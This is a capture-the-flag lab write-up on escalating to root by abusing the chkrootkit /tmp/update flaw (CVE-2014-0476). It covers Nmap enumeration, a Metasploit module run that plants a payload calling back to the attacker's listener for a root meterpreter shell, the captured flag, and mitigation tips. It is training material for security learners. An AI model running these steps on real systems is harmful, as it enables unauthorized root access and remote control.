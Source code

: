 
# 🚩 Exploiting Chkrootkit for Root Privilege Escalation

## 📌 Lab: Rootkit Workspace

Target: `192.137.220.3`
Attack Machine: Kali Linux (Metasploit Framework)

---

## 🔍 Enumeration with Nmap

We first enumerate the target machine using `db_nmap`:

```bash
msf6 > db_nmap -sV -Pn -sC -O 192.137.220.3
```

**Findings:**

* Port **22 (SSH)** open → OpenSSH 7.6p1 Ubuntu
* OS: Ubuntu Linux

---

## 👤 Initial Access

We obtained a low-privilege shell as user **jackie** via SSH.
Processes running show **chkrootkit** being executed regularly by root:

```bash
ps aux | grep chkrootkit
```

We discovered a suspicious script `/bin/check-down`:

```bash
cat /bin/check-down
```

It runs `chkrootkit` in a loop.

---

## ⚠️ Vulnerability: Chkrootkit (CVE-2014-0476)

* **chkrootkit** versions **< 0.50** contain a vulnerability.
* If a file named `/tmp/update` exists, chkrootkit will execute it **as root** during scans.
* This allows any local user to escalate privileges by writing a malicious executable/script to `/tmp/update`.
* Since `chkrootkit` is often run by **cron jobs** (every 10 or 15 minutes), the payload will eventually get executed automatically.

**References:**

* [NVD - CVE-2014-0476](https://nvd.nist.gov/vuln/detail/CVE-2014-0476)
* [Exploit-DB 33899](https://www.exploit-db.com/exploits/33899)

---

## 🎯 Exploitation with Metasploit

We use the Metasploit module:

```bash
use exploit/unix/local/chkrootkit
set CHKROOTKIT /usr/local/bin/chkrootkit/chkrootkit
set SESSION 1
set LHOST 192.137.220.2
set LPORT 4444
run
```

**What happens:**

* Module drops a payload into `/tmp/update`.
* Waits for `chkrootkit` to run (via cron).
* When executed by root, it spawns a **meterpreter session** as root.

---

## ✅ Privilege Escalation Success

```bash
meterpreter > getuid
Server username: root
```

We now have full root privileges.

---

## 🎁 Loot

Inside `/root`, we find the flag:

```bash
meterpreter > ls
meterpreter > cat flag
9db8bf8f483ff50857f26f9bd636bed6
```

---

## 📝 Key Takeaways

* Always check for **local privilege escalation vectors** once you gain a low-priv shell.
* `chkrootkit` < 0.50 is a **classic Linux privesc vulnerability**.
* Look for scheduled cron jobs or processes that run with elevated privileges.
* Mitigation: Upgrade chkrootkit, use file integrity monitoring, and restrict writable directories like `/tmp`.

---

⚡ **Final Root Flag:** `9db8bf8f483ff50857f26f9bd636bed6`
